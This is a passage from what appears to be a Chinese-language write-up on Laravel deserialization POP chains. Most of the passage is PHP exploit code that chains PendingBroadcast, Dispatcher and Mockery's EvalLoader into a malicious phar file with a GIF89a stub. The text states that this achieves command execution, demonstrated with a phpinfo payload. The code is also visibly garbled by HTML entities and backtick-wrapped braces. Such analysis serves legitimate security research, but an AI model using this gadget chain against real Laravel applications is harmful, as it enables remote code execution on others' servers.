 ```
            $this-&gt;queueResolver = $queueResolver;
        `}`
    `}`
`}`

namespace Mockery\Loader `{`
    class EvalLoader `{`

    `}`
`}`

namespace Mockery\Generator `{`
    class MockDefinition `{`
        protected $code;
        protected $config;
        public function __construct($code, $config) `{`
            $this-&gt;code = $code;
            $this-&gt;config = $config;
        `}`
    `}`
    class MockConfiguration `{`
        protected $name = "ricky";
    `}`
`}`

namespace `{`
    $d = new Mockery\Generator\MockDefinition('&lt;?php phpinfo();exit()?&gt;', new Mockery\Generator\MockConfiguration());
    $c = new Illuminate\Foundation\Console\QueuedCommand($d);
    $b = new Illuminate\Bus\Dispatcher([new Mockery\Loader\EvalLoader(), 'load']);
    $a = new Illuminate\Broadcasting\PendingBroadcast($b, $c);

    $phar = new Phar("ricky3.phar"); //生成phar文件
    $phar-&gt;startBuffering();
    $phar-&gt;setStub('GIF89a'.'&lt;?php __HALT_COMPILER(); ? &gt;');
    $phar-&gt;setMetadata($a); //触发头是C1e4r类
    $phar-&gt;addFromString("test.txt", "test"); //生成签名
    $phar-&gt;stopBuffering();
`}`

```

然后依照上面的流程走一遍, 就可以达成命令执行的效果

[![](https://p5.ssl.qhimg.com/t01412d7d8b2cf14ad1.png)](https://p5.ssl.qhimg.com/t01412d7d8b2cf14ad1.png)



## POP链4

全局搜索 `__destruct()`, 常用的有很多, 像是 `PendingBroadcast` 类, `PendingResourceRegistration` 类还有 `ImportConfigurator` 类, 用于触发 `__call` 方法, 这次调用的是 Mock 类里面的 `generate()` 方法
